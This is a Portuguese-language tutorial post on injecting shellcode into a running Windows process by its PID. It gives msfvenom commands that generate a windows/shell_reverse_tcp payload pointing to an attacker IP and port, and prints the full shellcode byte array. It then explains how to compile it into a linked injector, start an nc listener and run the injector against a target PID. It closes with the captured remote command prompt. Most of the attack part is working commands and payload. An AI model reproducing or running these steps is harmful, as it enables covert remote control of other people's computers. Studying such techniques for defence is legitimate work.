 ```yaml
---
title: Injeção de Código - Injection Remote Process PID
category: post
---
```


>link do código usado : 
https://github.com/d0x75/Injector-RemoteProcess.git

---

>Essa também é uma o clássica Injeção de Shellcode que
no caso é feito em outro módulo/processo que está em execução no computador alvo. O PID do módulo/processo é a referencia que utilizamos para injetar o shellcode.

>Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme a seguir :


#### Step 1

- Gerar os bytes do shellcode para Windows x86, apontando para o IP e Porta do computador que vai ganhar o acesso.



```ruby
msfconsole
msf6 > msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP e Porta do computador que vai ganhar o acesso.


```ruby
msfconsole
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

```c++
		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";
```


#### Step 2

- Abrir o código do link mencionado no inicio, que tem o
código responsável por executar os bytes gerados acima.


```text
injectremotePID.cpp
```

- Copiar os bytes gerados pelo msfvenom no Step 1, em seguida devemos colar esses bytes no conteúdo da variável *unsigned char shellcode[] = ""* do código 'injectremotePID.cpp' e depois compilar-lo.

- Ao compilar o software com sucesso teremos o executável pronto para uso.


```text
injectremotePID.exe
```

#### Step 3

- Anotar o PID do processo/módulo em que iremos injetar o shellcode.



		Para sabermos o PID de um processo podemos usar o "ProcessHacker", "procexp" ou o próprio "Gerenciador de Tarefas".


- Abrir a mesma porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador com o IP que também colocamos como argumento no msfvenom para gerar o shellcode :


```bash
nc -vlp 1234
```

- Executar o binário compilado no _Step 2_ para injetar o shellcode passando o PID anotado acima como argumento na linha de comando na hora de executar o 'injectremotePID.exe' :


```cmd
injectremotePID.exe 2004
```

- Feito isso, já devemos ganhar o acesso ao computador que executou o shellcode.


```DOS
nc -vlp 1234
listening on [any] 1234 ...
192.168.10.109: inverse host lookup failed: Host name lookup failure
connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
Microsoft Windows [vers�o 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Users\VBOX_7\Desktop>
```
